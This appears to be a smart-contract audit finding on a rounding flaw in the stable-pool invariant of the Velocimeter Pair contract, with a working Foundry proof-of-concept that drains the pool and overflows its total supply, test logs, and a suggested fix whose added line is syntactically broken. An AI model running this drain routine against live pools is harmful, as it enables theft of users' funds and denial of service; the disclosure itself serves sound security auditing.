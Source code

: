 Delightful Lavender Goose

High

# First liquidity provider can DOS the pool of a stable pair

## Summary
Rounding errors in the calculation of the invariant `k` can result in zero value for stable pools, allowing malicious actors to DOS the pool.

## Vulnerability Detail
In the `Pair` contract, the invariant `k` of a stable pool is calculated as follows:

```solidity
function _k(uint256 x, uint256 y) internal view returns (uint256) {
    if (stable) {
        uint256 _x = (x * 1e18) / decimals0;
        uint256 _y = (y * 1e18) / decimals1;
@>>     uint256 _a = (_x * _y) / 1e18;
        uint256 _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
        return (_a * _b) / 1e18; // x3y+y3x >= k
    } else {
        return x * y; // xy >= k
    }
}
```

The value of `_a = (x * y) / 1e18` becomes zero due to rounding errors when `x * y < 1e18`. This rounding error can result in the invariant `k` of stable pools equaling zero, allowing a trader to steal the remaining assets in the pool. A malicious first liquidity provider can DOS the pair by:

1. Minting a small amount of liquidity to the pool.
2. Stealing the remaining assets in the pool.
3. Repeating steps 1 and 2 until the `total supply overflows`.

To prevent rounding errors, the reserve of a pool should never be too small. The mint function, borrowed from Uniswap V2, includes a minimum liquidity check of `sqrt(a * b) > MINIMUM_LIQUIDITY`. However, this check is not sufficient to protect the invariant formula of stable pools.

## POC

```solidity
    function drainPair(Pair pair_, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair_), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair_.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair_), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        pair_.swap(amount0, amount1, address(this), new bytes(0));
    }
    
    function testDestroyPair() public {
        deployPairCoins();
        deployVoter();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);

        Pair pair_ = Pair(factory.createPair(address(DAI), address(FRAX), true));
        for(uint i = 0; i <= 10; i++) {
            DAI.transfer(address(pair_), 10_000_000);
            FRAX.transfer(address(pair_), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair_.mint(address(this));
            console.log("liquidity: ", liquidity);
            console.log("total liq: ", pair_.balanceOf(address(this)));
            drainPair(pair_, FRAX.balanceOf(address(pair_)) , DAI.balanceOf(address(pair_)));
        }
        DAI.transfer(address(pair_), 10_000_000);
        FRAX.transfer(address(pair_), 10_000_000);
        vm.expectRevert();
        pair_.mint(address(this));
    }
```
Result: 
```solidity
[PASS] testDestroyPair() (gas: 38603583)
Logs:
  liquidity:  9999000
  total liq:  9999000
  -------------------------------
  liquidity:  50000000000000
  total liq:  50000009999000
  -------------------------------
  liquidity:  250000050000000000000
  total liq:  250000100000009999000
  -------------------------------
  liquidity:  1250000500000050000000000000
  total liq:  1250000750000150000009999000
  -------------------------------
  liquidity:  6250003750000750000050000000000000
  total liq:  6250005000001500000200000009999000
  -------------------------------
  liquidity:  31250025000007500001000000050000000000000
  total liq:  31250031250012500002500000250000009999000
  -------------------------------
  liquidity:  156250156250062500012500001250000050000000000000
  total liq:  156250187500093750025000003750000300000009999000
  -------------------------------
  liquidity:  781250937500468750125000018750001500000050000000000000
  total liq:  781251093750656250218750043750005250000350000009999000
  -------------------------------
  liquidity:  3906255468753281251093750218750026250001750000050000000000000
  total liq:  3906256250004375001750000437500070000007000000400000009999000
  -------------------------------
  liquidity:  19531281250021875008750002187500350000035000002000000050000000000000
  total liq:  19531285156278125013125003937500787500105000009000000450000009999000
  -------------------------------
  liquidity:  97656425781390625065625019687503937500525000045000002250000050000000000000
  total liq:  97656445312675781343750032812507875001312500150000011250000500000009999000
  -------------------------------

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.00ms (7.86ms CPU time)
```
## Impact
Pool will be DOSsed for other users to use.

## Code Snippet
```solidity
    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
@>          liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
        require(liquidity > 0, 'ILM'); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
    
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
    
```
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L259
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413

## Tool used

Manual Review

## Recommendation
```diff
    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
        liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
+           if (stable) { require(_k(_amount0, _amount1) > MINIMUM_K; }
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
        require(liquidity > 0, 'ILM'); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
```
